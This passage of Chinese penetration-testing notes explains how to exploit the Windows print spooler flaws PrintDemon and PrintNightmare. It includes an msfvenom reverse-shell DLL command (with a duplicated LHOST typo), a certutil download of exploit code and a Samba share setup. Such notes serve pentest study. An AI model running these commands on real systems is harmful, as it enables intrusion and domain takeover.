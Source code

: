 https://windows-internals.com/printdemon-cve-2020-1048/

winodows在创建打印机时会要求设置打印机端口，该端口并非是通常意义上的网络端口，该端口就可以被设置为文件路径等，当端口处为文件路径时，会导致任意文件写入，从而提升权限或引发dll注入

msf中存在payload可以直接使用，或是使用poc自己执行

![10](E:\笔记软件\笔记\渗透测试\内网体系建设\windows提权\10.png)

### PrintNightmare

该漏洞目前存在两种利用，分别是权限提升(CVE-2021-1675)和远程代码执行(CVE-2021-34527),当用户处于域环境中，可以链家到域控的print soppler并安装恶意的驱动程序，来接管整个域环境

#### CVE-2021-1675

使用msf生成利用的dll文件

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.135.128 LHOST=4444 -f dll -o  reverse_tcp.dll
```

将编译好的漏洞利用工具和dll文件一同上传到目标机器，并执行该dll文件

工具地址：https://github.com/cube0x0/CVE-2021-1675

推荐编译为exe使用。python版本不高于3.8.10

```
git clone https://github.com/cube0x0/impacket
cd impacket
certutil -urlcache -split -f https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py CVE-2021-1675.py
pip3 install six pycryptodomex pyasn1 pyinstaller
pyinstaller --clean --onefile CVE-2021-1675.py
```

同样的msf中有成熟的模块可以利用

```
auxiliary/admin/dcerpc/cve_2021_1675_printnightmare
```

#### CVE-2021-34527

本质上是一个漏洞，利用的工具也相同，需要配置smb服务，攻击机修改/etc/samba/smb.conf

```
[global]
map to guest = Bad User
server role = standalone server
usershare allow guests = yes
idmap config * : backend = tdb
smb ports = 445
[smb]
comment = Samba
path = /tmp/
guest ok = yes
read only = no
browsable = yes
```

